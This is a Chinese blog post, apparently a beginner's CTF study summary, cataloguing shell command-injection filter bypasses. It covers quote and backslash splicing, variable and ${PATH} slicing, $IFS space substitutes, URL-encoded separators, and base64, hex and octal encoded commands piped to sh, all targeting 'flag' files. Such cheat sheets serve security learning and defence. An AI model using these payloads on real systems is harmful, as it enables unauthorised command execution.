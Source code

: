 ```yaml
---
title: 代码执行绕过 | 初级 | 小结
date: 2020-09-24 14:04:32
tags:
  - 编码
  - 绕过
categories:
  - 知识总结
excerpt: >-
  梳理总结各类绕过方式
author: btwoa
abbrlink: efdbbe03
---
```


> **本文部分信息可能已发生改变，请自行甄别**

## 拼接绕过

### 反斜杠绕过

ca\\t fl\\ag

### 反单引号绕过

c\`\`a\`\`t flag

### 单引号绕过

c''a''t flag

### 双引号绕过

c""a""t flag

### 插入注释绕过

c\\\*ba2in9a\*\\at flag

## 自定义变量绕过

a=l;b=s;\$a\$b

a=fl;b=ag;cat \$a\$b

## 未初始化变量绕过

cat$m flag

## Shell 特殊变量绕过

当变量不存在时其值为空

### Shell 特殊变量

<details>
<summary> <b> <samp> 点击查看内容 </samp></b></summary>
<ul>
<li> $0  :   当前脚本的文件名</li>
<li> $n  :  传递给脚本或函数的参数（n为正整数）</li>
<li> $#  :  传递给脚本或函数的参数个数</li>
<li> $*  :  传递给脚本或函数的所有参数</li>
<li> $@  :  传递给脚本或函数的所有参数</li>
<li> $?  :  上个命令的退出状态，或函数的返回值</li>
<li> $$  :  当前 Shell 进程或 Shell 脚本所在进程 ID</li>
<li>"$*" :  会将所有的参数作为一个整体，以"$1 $2 … \$n"的形式输出所有参数</li>
<li>"$@" :  会将各个参数分开，以"$1" "$2" … "$n" 的形式输出所有参数</li>
</ul>
</details>

## 利用PATH绕过

\${PATH:5:1} -> l

\${PATH:2:1} -> s

\${PATH:5:1}\${PATH:2:1}

## 过滤斜杠绕过

### \${HOME:0:1}

cat ${HOME:0:1}flag

### echo . | tr ‘!-0’ ‘"-1’

cat $(echo . | tr ‘!-0’ ‘"-1’)flag

## 过滤空格绕过

### Linux

#### {OS_COMMAND,ARGUMENT}可执行系统命令

{cat,flag.php}

#### ;

连接前后命令，多条命令顺序执行，命令之间没有任何逻辑关系

#### 重定向符

##### <和<>

cat<flag.txt

cat<>flag.txt

###### 示例

<details>
<summary> <b> <samp> 点击查看内容 </samp></b></summary>
<table>
	<caption>
		输出重定向符号</caption>
	<tbody>
		<tr>
			<th >
				类&nbsp;型</th>
			<th >
				符&nbsp;号</th>
			<th>
				作&nbsp;用</th>
		</tr>
		<tr>
			<td rowspan="2">
				标准输出重定向</td>
			<td>
				command&nbsp;&gt;file</td>
			<td>
				以覆盖的方式，把 command 的正确输出结果输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file</td>
			<td>
				以追加的方式，把 command 的正确输出结果输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td rowspan="2">
				标准错误输出重定向</td>
			<td>
				command 2&gt;file</td>
			<td>
				以覆盖的方式，把 command 的错误信息输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td>
				command 2&gt;&gt;file</td>
			<td>
				以追加的方式，把 command&nbsp;的错误信息输出到 file&nbsp;文件中</td>
		</tr>
		<tr>
			<td colspan="1" rowspan="6">
				正确输出和错误信息同时保存</td>
			<td>
				command &gt;file&nbsp;2&gt;&amp;1</td>
			<td>
				以覆盖的方式，把正确输出和错误信息同时保存到同一个文件（file）中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file&nbsp;2&gt;&amp;1</td>
			<td>
				以追加的方式，把正确输出和错误信息同时保存到同一个文件（file）中</td>
		</tr>
		<tr>
			<td>
				command &gt;file1 2&gt;file2</td>
			<td>
				以覆盖的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file1&nbsp; 2&gt;&gt;file2</td>
			<td>
				以追加的方式，把正确的输出结果输出到 file1 文件中，把错误信息输出到 file2 文件中</td>
		</tr>
		<tr>
			<td>
				command &gt;file 2&gt;file</td>
			<td colspan="1" rowspan="2">
				【<span style="color:#b22222;"><b>不推荐</b></span>】这两种写法会导致 file 被打开两次，引起资源竞争， stdout 和 stderr 会互相覆盖</td>
		</tr>
		<tr>
			<td>
				command &gt;&gt;file 2&gt;&gt;file</td>
		</tr>
	</tbody>
</table>
</details>

##### IFS

###### \$IFS

\$IFS 在 Linux 下表示分隔符

cat\$IFSflag.txt

 bash 会将 IFSflag 当作变量名，导致无法输出预期结果

###### \$IFS$9

加个 \$ 起截断的作用

\$9表示当前系统 shell 进程的第九个参数的持有者，其始终为空字符串

cat\$IFS$9flag.txt

###### \${IFS}

加 \{\} 起固定变量名的作用

cat\${IFS}flag.txt

### Windows

仅 type 命令可行

type.\\flag.txt

type,flag.txt

### URL 编码

#### PHP 环境

%09 horizontal tab 水平制表符

%0a line feed 换行符

%0d vertical tab   垂直制表符

##### 命令终止符

%00 null character 零字符

%20# space 空格符

### 示例

ca\$9t fl\$9ag

ca\$\*t fl\$\*ag 

ca\$\@t fl\$\@ag

## 编码绕过

反引号\`\`和$()和{}|$0用来表示命令执行

cat /flag

```
base64:  Y2F0IC9mbGFn

hex:  636174202f666c6167

oct:  \x63\x61\x74\x20\x2f\x66\x6c\x61\x67
```

### base64

```
echo Y2F0IC9mbGFn|base64 -d|sh

`echo Y2F0IC9mbGFn|base64 -d`

$(echo Y2F0IC9mbGFn|base64 -d)

{echo Y2F0IC9mbGFn|base64 -d}|$0
```

### hex

echo 636174202f666c6167|xxd -r -p|sh

\`echo 636174202f666c6167|xxd -r -p\`

$(echo 636174202f666c6167|xxd -r -p)

{echo 636174202f666c6167|xxd -r -p}|$0

### oct

```
$(printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67")

{printf "\x63\x61\x74\x20\x2f\x66\x6c\x61\x67"}|$0
```